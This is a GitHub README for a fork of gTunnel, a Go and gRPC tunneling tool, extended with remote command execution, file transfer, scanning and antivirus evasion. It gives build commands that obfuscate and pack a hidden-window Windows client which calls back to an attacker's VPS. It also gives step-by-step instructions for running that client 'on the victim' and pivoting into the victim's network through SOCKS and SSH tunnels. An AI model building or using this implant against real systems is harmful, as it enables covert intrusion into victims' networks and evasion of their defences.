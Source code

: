 # gTunnel Fork

Original (https://github.com/hotnops/gtunnel):
> A TCP tunneling suite built with golang and gRPC. gTunnel can manage multiple forward and reverse tunnels that are all carried over a single TCP/HTTP2 connection. I wanted to learn a new language, so I picked go and gRPC. Client executables have been tested on windows and linux.

My changes + additions:
- Added gRPC tunnel for tasks (cmd exec / file transfer / file upload)
- High efficient TCP scanner
- Traffic stats
- AV evasion

# Dependencies
- [go 1.17+](https://golang.org/doc/install)
- [garble](https://github.com/burrowers/garble) used to obfuscate windows binaries

# Generate Server Binary

This is the binary to be used in the VPS

```bash
cd gServer
CGO_ENABLED=0 go build .
```

On the attacker's VPS, setup self-signed certs

```bash
mkdir tls && openssl req -new -newkey rsa:4096 -x509 -sha256 -days 365 -nodes -out tls/cert -subj "/C=/ST=/L=/O=/CN=" -keyout tls/key
```

# Generate Windows Client Binary

```bash
x=$PWD
serverPort=443
serverIP=8.8.8.8
outputFile=gClient.exe

seed=`cat /dev/urandom| head -1 | md5sum| base64`
cd gClient && GOROOT_FINAL=/dev/null GOOS=windows GOARCH=amd64 garble -seed=$seed -tiny -literals build -ldflags "-X main.serverAddress=$serverIP -X main.serverPort=$serverPort -s -w -H=windowsgui" -o gClient.exe && cp gClient.exe $x/$outputFile && upx $x/$outputFile
```

# How to setup a simple socks5 tunnel

1. Run `./gServer` on the attacker's VPS as root (with permissions to open 443/tcp)
2. Execute `gclient.exe` on the victim
3. Gain a new connection on the `gServer` prompt
4. Execute `use newMachine-0000`
5. Execute `socks 1080` to start a socks proxy on the victim machine
6. Execute `addtunnel local 1080 127.0.0.1 1080` - you will now have a socks5 proxy at 127.0.0.1:1080 on the attack VPS
7. Setup SSH tunnel from attackers actual machine to get access to the socks5 port on the VPS with `ssh -L 1080:127.0.0.1:1080 root@attack_vps -N -v`
8. Use `proxychains` with `127.0.0.1 1080` on the attacker's userland machine to interact with the victim's network
